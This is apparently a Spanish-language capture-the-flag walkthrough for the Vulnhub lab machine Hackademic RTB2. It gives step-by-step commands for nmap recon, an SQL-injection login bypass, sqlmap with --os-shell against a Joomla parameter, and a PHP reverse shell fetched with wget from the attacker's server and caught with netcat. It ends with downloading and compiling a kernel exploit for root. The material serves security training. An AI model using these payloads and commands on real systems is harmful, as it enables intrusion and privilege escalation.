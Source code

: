 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=3CF700FF&background=FF000000&width=500&height=80&lines=HACKADEMIC_RTB2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb2,18/

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/182723256-9616db47-6dcd-4884-a26f-0bd69b382d29.png"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con ArpScan. 
```
arp-scan --interface eth0 -l
```
![2](https://user-images.githubusercontent.com/75953873/182723636-8e6a7d2c-7280-4742-a5b3-17660bdd6a2e.png)

IP host: `192.168.25.131`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.131
```
![3](https://user-images.githubusercontent.com/75953873/182724090-b60c5b67-0dd2-4a6c-83d7-01c541c00bef.png)

Puertos abiertos: [80,666]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 80,666 -A 192.168.25.131
```
![4](https://user-images.githubusercontent.com/75953873/182724516-60843d6c-3ed8-4307-8345-7431696978a3.png)

Servidor corriendo: **HTTP Apache**

O.S: Linux (**Ubuntu**)

URL del servidor: `http://192.168.25.131`

![5](https://user-images.githubusercontent.com/75953873/182724778-d685a545-04c9-4e41-8a49-3058067bc121.png)

- *Paso 4:* Bypassear página con inyección SQL manual. 

Username: `' or 1=1--'`

Password: `' or 1=1--'`

![6](https://user-images.githubusercontent.com/75953873/182725260-0ebeb8c5-c0af-465d-b520-69816fb8b37a.png)

![7](https://user-images.githubusercontent.com/75953873/182725313-445bffd4-699b-404c-9304-80a514377bfa.png)

Al inspeccionar el código fuente, la etiqueta `<font>` contiene un texto ofuscado a hexadecimal.

![9](https://user-images.githubusercontent.com/75953873/182725970-78c8a7d8-80ea-4298-906f-7b8e9a898268.png)

```
%33%63%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%33%65%20%30%64%20%30%61%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%32%30%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%32%30%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%36%39%20%36%65%20%32%37%20%32%30%20%36%66%20%36%65%20%32%30%20%36%38%20%36%35%20%36%31%20%37%36%20%36%35%20%36%65%20%32%37%20%37%33%20%32%30%20%36%34%20%36%66%20%36%66%20%37%32%20%32%30%20%32%65%20%32%65%20%32%30%20%33%61%20%32%39%20%30%64%20%30%61%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%30%64%20%30%61%20%33%63%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%33%65%0A
```

- *Paso 5:* Decodificar mensaje de forma Online y con BurpSuite. 

**ONLINE:** https://www.online-toolz.com/langs/es/tool-es-text-hex-convertor.html

![10](https://user-images.githubusercontent.com/75953873/182726252-e5756ba4-5cf6-44ce-92a1-76971760b4d8.png)

**BURPSUITE:**

Decoder:
```
[Text] -> Decode as -> URL
[Hex] -> Decode as -> ASCII hex
[Text] -> Decode as -> Plain
```
![11](https://user-images.githubusercontent.com/75953873/182727019-7c7f2896-8299-42f1-ba58-d6e69c1d6545.png)

Decodificar cadena binaria: https://www.traductorbinario.com/
```
0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1 
```

![12](https://user-images.githubusercontent.com/75953873/182727491-9cdcf046-d840-4923-a7fd-1c5d0258a98c.png)

- *Paso 6:* Acceder al puerto 666 golpeado recursivamente los puertos `1001,1101,1011,1001` con Nmap. 
```
nmap -r -p 1001,1101,1011,1001 192.168.25.131
```
![13](https://user-images.githubusercontent.com/75953873/182728017-cd632ee0-4ae2-4f7e-8e8e-f78ee7450ebd.png)

URL con el puerto 666 abierto: `http://192.168.25.131:666`

![14](https://user-images.githubusercontent.com/75953873/182728213-b629fc94-5457-4086-b57d-f5b01b3aeb2a.png)

- *Paso 7:* Encontrar parámetro vulnerable a inyección SQLI. 

Navegando en el sitio web se puede observar que la "Lista de artículos de contenido" presenta una URL crítica.
```
sqlmap --url 'http://192.168.25.131:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...&Itemid=3' --dbs --batch
```
![15](https://user-images.githubusercontent.com/75953873/182728721-92cf4596-2d56-4614-88c3-30419f27d7d7.png)

- *Paso 8:* Subir una shell a la base de datos `joomla`:
```
sqlmap --url 'http://192.168.25.131:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...&Itemid=3' -D joomla --os-shell --batch
```
![16](https://user-images.githubusercontent.com/75953873/182729464-41340377-450f-45ff-94eb-4c9789aab291.png)

Editar la reverse shell PHP, moverla al directorio `/root` y subirla al servidor local:
```
cp /usr/share/webshells/php/php-reverse-shell.php /root
nano php-reverse-shell.php
mv php-reverse-shell.php reverseshell.php
```

**$ip:** La IP local de su máquina.

**$port:** 4444 (opcional).

![18](https://user-images.githubusercontent.com/75953873/182730094-c8c2f93f-b0a6-444f-9f84-b26f4efe6030.png)

![17](https://user-images.githubusercontent.com/75953873/182729943-7059e627-8c01-43bc-b0f6-572664c2773c.png)

Abrir servidor local con Python3:
```python
python3 -m http.server 80
```
![20](https://user-images.githubusercontent.com/75953873/182731305-a8adc335-e819-4e5c-9f1e-c388f900f595.png)

Descargar la reverse shell desde la shell obtenida en la base de datos:
```
wget http://192.168.1.9/reverseshell.php
```
![19](https://user-images.githubusercontent.com/75953873/182731485-6dd80b89-38fe-4aa6-a2c1-de63078be636.png)

- *Paso 9:* Poner a escucha conexiones con Netcat:
```
nc -lvp 4444
``` 
Acceder al sitio donde se subio la reverse shell:

URL: `http://192.168.25.131:666/reverseshell.php`

![21](https://user-images.githubusercontent.com/75953873/182731893-d0f3e803-277c-422d-b78c-fd9f8c22c66d.png)

- *Paso 10:* Identificar versión del kernel y descargar exploit:

![22](https://user-images.githubusercontent.com/75953873/182732251-c05c0ba1-7e2e-4da5-a75c-8676435d3a96.png)

```
searchsploit 2.6.3 | grep "RDS"
searchsploit -m 15285
```
![23](https://user-images.githubusercontent.com/75953873/182733308-febf508c-8e3b-42b7-ba66-9b3eb82b6494.png)

Abrir servidor local con Python3:
```python
python3 -m http.server 80
```

Descargar y compilar exploit en el directorio `/tmp`:
```
cd /tmp
wget http://192.168.1.9/15285.c
gcc 15285.c -o kernel
```
![24](https://user-images.githubusercontent.com/75953873/182735176-1cd40bee-e4d0-4956-bc1e-2e593608b292.png)

Explotar kernel:
```
./kernel
```
![26](https://user-images.githubusercontent.com/75953873/182735618-d1d80e24-f62d-4679-b2fa-1d745dfe8abf.png)

Acceder al directorio `/root` y capturar la flag:
```
cd /root
cat Key.txt
```
![25](https://user-images.githubusercontent.com/75953873/182736331-28feb398-5d2a-4cee-8d54-354df9ba9c9e.png)

Descifrar contenido del fichero con base64 y moverlo al servidor local `/var/www`:
```
base64 -d Key.txt > flag
mv flag /var/www
```
URL: `http://192.168.25.131:666/flag`

![28](https://user-images.githubusercontent.com/75953873/182736188-909c542c-55ad-46ea-962a-517ede01b93d.png)

</br>

Felicitaciones al autor <a href="https://www.vulnhub.com/author/mrpr0n,3/">mr.pr0n</a> por la excelente versión 2.0 de **Hackademic**!
